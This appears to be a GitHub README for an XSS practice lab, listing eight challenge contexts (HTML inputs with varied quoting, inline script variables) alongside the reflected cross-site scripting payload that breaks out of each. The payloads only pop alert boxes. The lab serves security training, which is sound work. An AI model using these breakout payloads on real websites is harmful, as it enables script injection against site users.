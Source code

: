 # XSS-Practice-Lab


### Lab Link : http://leettime.net/xsslab1/chalg1.php

### Author : Sheikh Rishad

<XSS Practice Lab/>


## Challenge_1:

    <input type="text" name="name"></input>

payload :   

    <script>alert(1)</script>




Challenge_2:

     <input type="text" name="name" value=hack></input>

payload :  

     ><script>alert(document.URL)</script>


Challenge_3:

     <input type="text" name="name" value="hack"></input>

payload :  

    "><script>alert(document.URL)</script>


Challenge_4:

     <input type="text" name="name" value='hack'></input>

payload :   
 
    '><script>alert(document.URL)</script>


Challenge_5:

    <center><script>var search_str="hack";</script>

payload :   
  
    </script><script>alert(document.URL)</script>


Challenge_6:

     <center><script>var search_str='hack';</script>

payload : 
  
    </script><script>alert(document.URL)</script>


Challenge_7:

     <input type="text" name="name" value='<scriptalert("hack")</script'></input>

payload :   
 
    'onmouseover='alert(document.URL);


Challenge_8:

    <input type="text" name="name" value='&gt;&lt;script&gt;alert(1)&lt;/script&gt;'></input>

payload :   
       
    "onmouseover="alert(document.URL);
